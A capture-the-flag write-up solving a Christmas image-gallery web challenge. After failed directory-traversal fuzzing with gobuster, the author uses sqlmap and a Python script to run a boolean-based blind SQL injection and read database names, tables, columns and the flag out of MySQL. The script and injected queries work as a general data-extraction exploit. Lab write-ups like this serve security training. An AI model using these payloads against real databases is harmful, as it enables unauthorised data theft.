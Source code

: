 # Image Gallery (web) (author: stn)

## Description

```shell
We've created a nice web image gallery to help people to get into a Christmas mood with some nice Christmas-themed pictures. Go and take a look.
```

## Task analysis & solution

Upon starting the docker instance and loading up the website in the browser, I'm greeted by an image gallery, consisting of 20 Christmas themed images. On the top of the page, there is a small input textbox that acts as a search.

![](1.png)

Let's explore the source of the page:

```html
<!-- Omitted for brevity -->
    <!-- Gallery -->
    <div class="container">
        <div class="top">


<ul><li><a href="#img_1"><img src="img/abstract-christmas-tree-illustration_23-2148778299.jpg"></a></li><li><a href="#img_2"><img src="img/black-background-with-reindeer_1110-610.jpg"></a></li><li><a href="#img_3"><img src="img/christmas-background-with-bauble-winter-landscape-design_1048-17200.avif"></a></li><li><a href="#img_4"><img src="img/christmas-card-with-christmas-tree-vector-illustration-eps-10_87521-3908.jpg"></a></li><li><a href="#img_5"><img src="img/christmas-greeting-template-vector-facebook-story-post-winter-holiday-season_53876-154350.avif"></a></li><li><a href="#img_6"><img src="img/christmas-holiday-template-facebook-story-post-winter-holiday-season-vector_53876-154352.avif"></a></li><li><a href="#img_7"><img src="img/christmas-new-year-card-with-watercolor-white-floral-red-christmas-ornament_44538-13680.avif"></a></li><li><a href="#img_8"><img src="img/flat-christmas-gnomes-collection_23-2149151493.avif"></a></li><li><a href="#img_9"><img src="img/flat-christmas-season-celebration-background_23-2149842695.avif"></a></li><li><a href="#img_10"><img src="img/hand-drawn-christmas-background-with-florals-ornaments_1361-4054.avif"></a></li><li><a href="#img_11"><img src="img/hand-drawn-christmas-stamp-collection_23-2148759439.avif"></a></li><li><a href="#img_12"><img src="img/hand-drawn-merry-christmas-decorative-background-design_1017-28933.avif"></a></li><li><a href="#img_13"><img src="img/merry-christmas-festival-celebration-greeting-background_1055-22426.avif"></a></li><li><a href="#img_14"><img src="img/merry-christmas-hand-drawn-card_53876-56284.avif"></a></li><li><a href="#img_15"><img src="img/merry-christmas-lettering-with-snowmans_23-2148292056.jpg"></a></li><li><a href="#img_16"><img src="img/minimal-christmas-background-with-blue-red-ornaments_1361-3038.avif"></a></li><li><a href="#img_17"><img src="img/modern-christmas-background-with-white-snowflakes_1361-3976.jpg"></a></li><li><a href="#img_18"><img src="img/retro-styled-christmas-card_1048-9207.jpg"></a></li><li><a href="#img_19"><img src="img/vintage-christmas-decoration-background_23-2147708708.jpg"></a></li><li><a href="#img_20"><img src="img/watercolor-christmas-element-collection-characters_759171-30.jpg"></a></li></ul><a href="#_1" class="lightbox" id=img_1><img src="img/abstract-christmas-tree-illustration_23-2148778299.jpg"></a><a href="#_2" class="lightbox" id=img_2><img src="img/black-background-with-reindeer_1110-610.jpg"></a><a href="#_3" class="lightbox" id=img_3><img src="img/christmas-background-with-bauble-winter-landscape-design_1048-17200.avif"></a><a href="#_4" class="lightbox" id=img_4><img src="img/christmas-card-with-christmas-tree-vector-illustration-eps-10_87521-3908.jpg"></a><a href="#_5" class="lightbox" id=img_5><img src="img/christmas-greeting-template-vector-facebook-story-post-winter-holiday-season_53876-154350.avif"></a><a href="#_6" class="lightbox" id=img_6><img src="img/christmas-holiday-template-facebook-story-post-winter-holiday-season-vector_53876-154352.avif"></a><a href="#_7" class="lightbox" id=img_7><img src="img/christmas-new-year-card-with-watercolor-white-floral-red-christmas-ornament_44538-13680.avif"></a><a href="#_8" class="lightbox" id=img_8><img src="img/flat-christmas-gnomes-collection_23-2149151493.avif"></a><a href="#_9" class="lightbox" id=img_9><img src="img/flat-christmas-season-celebration-background_23-2149842695.avif"></a><a href="#_10" class="lightbox" id=img_10><img src="img/hand-drawn-christmas-background-with-florals-ornaments_1361-4054.avif"></a><a href="#_11" class="lightbox" id=img_11><img src="img/hand-drawn-christmas-stamp-collection_23-2148759439.avif"></a><a href="#_12" class="lightbox" id=img_12><img src="img/hand-drawn-merry-christmas-decorative-background-design_1017-28933.avif"></a><a href="#_13" class="lightbox" id=img_13><img src="img/merry-christmas-festival-celebration-greeting-background_1055-22426.avif"></a><a href="#_14" class="lightbox" id=img_14><img src="img/merry-christmas-hand-drawn-card_53876-56284.avif"></a><a href="#_15" class="lightbox" id=img_15><img src="img/merry-christmas-lettering-with-snowmans_23-2148292056.jpg"></a><a href="#_16" class="lightbox" id=img_16><img src="img/minimal-christmas-background-with-blue-red-ornaments_1361-3038.avif"></a><a href="#_17" class="lightbox" id=img_17><img src="img/modern-christmas-background-with-white-snowflakes_1361-3976.jpg"></a><a href="#_18" class="lightbox" id=img_18><img src="img/retro-styled-christmas-card_1048-9207.jpg"></a><a href="#_19" class="lightbox" id=img_19><img src="img/vintage-christmas-decoration-background_23-2147708708.jpg"></a><a href="#_20" class="lightbox" id=img_20><img src="img/watercolor-christmas-element-collection-characters_759171-30.jpg"></a>        </div>
    </div>
    <!-- Gallery -->

</body>

</html>
```

What we gather from this is that all the images are inside an ``img/`` folder at the root of the website. The search field looks like a very good attack vector and judging by where the pictures are coming from, my assumption would be that there is some possibility to do directory traversal and grab the flag from an adjacent folder or even somewhere outside of the web server. At the same time though, I tried some sample inputs for the search and there are a few things I noticed. Searching by the image extension (.jpg/.avif) did not yield any results and neither did a search for a dash (-). Funnily enough, if I looked for ``merry christmas`` I would get matches, but searching for ``merry-christmas`` was a no go. So whatever technique that functionality was employing, was sanitizing the input to an extend. If the website's backend was explicitly looking for pictures, even if manage to traverse the outer directories, unless the flag is an image file, I wouldn't be able to get it..

To explore my directory traversal idea, I grabbed a tool called [gobuster](https://github.com/OJ/gobuster). It is a fuzzing tool meant to brute force and find website security holes by doing dictionary attacks. Some of the commands I used were..

```shell
> .\gobuster.exe fuzz -u http://10.10.8.61:33333?search=FUZZ -w ..\deep_traversal.txt --exclude-length 998 -q
> .\gobuster.exe fuzz -u http://10.10.8.61:33333?search=FUZZ -w ..\deep_traversal.txt --exclude-length 998 -q
> .\gobuster.exe fuzz -u http://10.10.8.61:33333?search=FUZZ -w ..\deep_traversal.txt      
> .\gobuster.exe fuzz -u http://10.10.8.61:33333?search=FUZZ -w ..\dotdotpwn.txt -l      
> .\gobuster.exe fuzz -u http://10.10.8.61:33333?search=FUZZ -w ..\dotdotpwn.txt           
> .\gobuster.exe fuzz -u http://10.10.8.61:33333?search=FUZZ -w ..\dotdotpwn.txt -q        
> .\gobuster.exe dir -u http://10.10.8.61:33333 -w ..\big.txt -q                           
> .\gobuster.exe dir -u http://10.10.8.61:33333 -w ..\common.txt -q                      
> .\gobuster.exe dir -u http://10.10.8.61:33333 -w ..\directory_traversal_unix.txt  
```

``--exclude-length 998`` was used, because the normal 0 results view was at that length and I wanted to filter out results below that threshold. The ``-w`` parameter is used to specify a wordlist file and the values are then substituting the ``FUZZ`` string in the URL. Unfortunately, none of these proved useful or helped in any way. I wasn't able to get through.

Then I looked through the image files. The AV1 files were interesting. That's a modern encoding standard and it is not heard of in the CTF lands, thus very unlikely to have hidden data inside. I figured out that all of the pictures were grabbed from a website called freepik and so my lead here was getting cold.

Despite my better judgement and the fact that it makes no sense to have a database backing up this website, I decided to explore the possibility of doing SQL injections with the search field. I fired up [sqlmap](), which is a tool for testing sql vulnerabilities and crafted a command to explore the search functionality:

```shell
sqlmap -v5 -u http://10.10.8.61:33333/?search=christmas -p search -technique=B --level=5 --risk=3
```

The output I got this time was very positive though, to my utter amazement:

```shell
[15:14:39] [DEBUG] declared web page charset 'utf-8'
[15:14:39] [TRAFFIC IN] HTTP response [#1] (200 OK):
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 1240
Connection: close
Content-Type: text/html; charset=UTF-8
URI: http://10.10.8.61:33333/?search=christmas
[15:14:39] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=red%' AND 2563=2563 AND 'dummy%'='dummy
    Vector: AND [INFERENCE]
---
[15:14:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL 5 (MariaDB fork)
```

I got two very important pieces of information from ``sqlmap``, first the database is mysql and second, the backend is susceptible to boolean based blind sql injections. But what does that mean? It means that we can plug ourselves into the select condition and try to blindly determine things based on whether we got results or not. Let's assume the following query is executed on the database when we search for ``christmas``:

```sql
SELECT X, Y, Z FROM images
WHERE name LIKE '<search input here>'
```

Thus if we search for ``christmas' AND 1=1``, then we should be getting the same results, as we're still providing a ``TRUE`` value in there. We can use this to our advantage and figure out information from within the database. There's one problem - we have no idea what the database looks like, how many tables it contains, hell, we don't even know what it is called. Luckily, every RDBMS has a system database called INFORMATION_SCHEMA that holds information about the databases, tables, columns etc. With a carefully crafted query, we can start our blind journey through this MySQL.

The idea is simple - we need a query to iterate through the table with the database names and then iterate on each result, character by character comparing that to known alphabetical symbols. If we get a result, then we have a letter and we can move on, otherwise we cycle through the alphabet until we do.

We know the database names can be found in INFORMATION_SCHEMA.SCHEMATA, thus we can craft this query to use as a condition:

```sql
SELECT SUBSTRING(SCHEMA_NAME, {position}, 1) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1 OFFSET {row_offset}) = '{char}
```

``{position}`` is the variable for the position within the database name that SUBSTRING by
``{row_offset}`` would hold the index of the currently processed database name
``{char}`` is the current letter we're trying

This can actually be made into a little script that will automate the processing for us, as it would be extremely time inefficient to be doing this by hand:

```python
import requests

url = "http://10.10.8.61:33333/?search="
alphabet = "abcdefghijklmnopqrstuvwxyz0123456789/._-{}"
results = []

for row_offset in range(0, 100):  # Iterate through rows
    path_value = ""
    for position in range(1, 100):  # Iterate through characters of the path
        for char in alphabet:
            
            # databases
            payload = f"christmas%25%27+AND+%28SELECT+SUBSTRING%28SCHEMA_NAME%2C+{position}%2C+1%29+FROM+INFORMATION_SCHEMA.SCHEMATA+LIMIT+1+OFFSET+{row_offset}%29+%3D+%27{char}%27+AND+%27red%25%27+%3D+%27red"
            
            response = requests.get(url + payload)
            
            # Check if the response contains <ul> to validate the query
            if "<ul>" in response.text:
                path_value += char
                print(f"Row {row_offset}, Character {position}: {char}")
                break
        else:
            # Stop if no match is found (end of the string)
            break
    
    # Stop if no path is found for the current row
    if not path_value:
        print(f"No more rows found after row {row_offset}")
        break

    # Append the extracted path value to the list
    results.append(path_value)

# Print all extracted paths
print("Extracted results:")
for idx, result in enumerate(results):
    print(f"Row {idx}: {result}")
```

It takes some time, because every single line needs to be checked index by index, but eventually we get some meaningful output:

```shell
No more rows found after row 5
Extracted results:
Row 0: information_schema
Row 1: performance_schema
Row 2: sys
Row 3: mysql
Row 4: ctfdb
```

These are databases on the mysql instance. Obviously, the one we should be looking into is ``ctfdb``. Let's modify the query a bit, so we can look through the tables of that particular database:

```shell
red%' AND (SELECT SUBSTRING(TABLE_NAME, {position}, 1) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='ctfdb' LIMIT 1 OFFSET {row_offset}) = '{char}' AND 'red%' = 'red
```

This will use the same technique, but this times select on INFORMATION_SCHEMA.TABLES for database ``ctfdb``.

```shell
No more rows found after row 2
Extracted results:
Row 0: secrets
Row 1: images
```

Would you look at that! We have a table called ``images`` and a table called ``secrets``. Let's look into the ``secrets`` table now:

```shell
red%' AND (SELECT SUBSTRING(column_name, {position}, 1) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='ctfdb' AND table_name='secrets' LIMIT 1 OFFSET {row_offset}) = '{char}' AND 'red%' = 'red
```

This should print out all the columns of the ``secrets`` table inside the ``ctfdb`` database.

```shell
Extracted results:
Row 0: id
Row 1: flag
```

Now we know there's a flag column in the ``secrets`` table. One final query should be enough to take it home.

```shell
red%' AND (SELECT SUBSTRING(flag, {position}, 1) FROM secrets LIMIT 1 OFFSET {row_offset}) = '{char}' AND 'pesho%' = 'pesho
```

```shell
No more rows found after row 1
Extracted results:
Row 0: milestonectf{sql-injection-can-be-prevented}
```

And there we go, we got to the flag: **``milestonectf{sql-injection-can-be-prevented}``**